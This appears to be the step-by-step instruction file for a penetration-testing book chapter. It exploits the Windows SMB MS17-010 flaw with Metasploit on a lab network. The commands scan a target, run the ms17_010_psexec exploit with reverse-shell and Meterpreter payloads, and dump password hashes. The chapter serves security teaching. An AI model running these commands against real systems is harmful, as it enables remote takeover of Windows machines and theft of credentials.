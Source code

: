 # Chapter 7 Instructions

## Exploiting Windows SMB Vulnerability with MS17-010

Setup and Verification
Open the Metasploit framework:

```
msfconsole
```

### Listing 7.1 Verifying the target is exploitable

Use the auxiliary scanner for SMB MS17-010:

```
msf5 > use auxiliary/scanner/smb/smb_ms17_010
msf5 auxiliary(scanner/smb/smb_ms17_010) > set rhosts 10.0.10.227
msf5 auxiliary(scanner/smb/smb_ms17_010) > run
```

### Listing 7.2 Checking for the localhost IP address

Confirm the localhost IP address:

```
msf5 auxiliary(scanner/smb/smb_ms17_010) > ifconfig
```

### Listing 7.3 Using the MS17-010 exploit module

Use the MS17-010 exploit module:

```
msf5 > use exploit/windows/smb/ms17_010_psexec
msf5 exploit(windows/smb/ms17_010_psexec) > set rhost 10.0.10.208
msf5 exploit(windows/smb/ms17_010_psexec) > set payload windows/x64/shell/reverse_tcp
msf5 exploit(windows/smb/ms17_010_psexec) > set lhost 10.0.10.160
msf5 exploit(windows/smb/ms17_010_psexec) > exploit
```

### Listing 7.4 Getting a Meterpreter shell

Utilize Meterpreter payload:

```
msf5 > use exploit/windows/smb/ms17_010_psexec
msf5 exploit(windows/smb/ms17_010_psexec) > set rhost 10.0.10.208
msf5 exploit(windows/smb/ms17_010_psexec) > set payload windows/x64/meterpreter/reverse_https
msf5 exploit(windows/smb/ms17_010_psexec) > exploit
```

### Listing 7.5 The Meterpreter help screen

Access Meterpreter shell:

```
meterpreter > help
```

### Listing 7.7 Using the smart_hashdump post module

```
meterpreter > run post/windows/gather/smart_hashdump
```
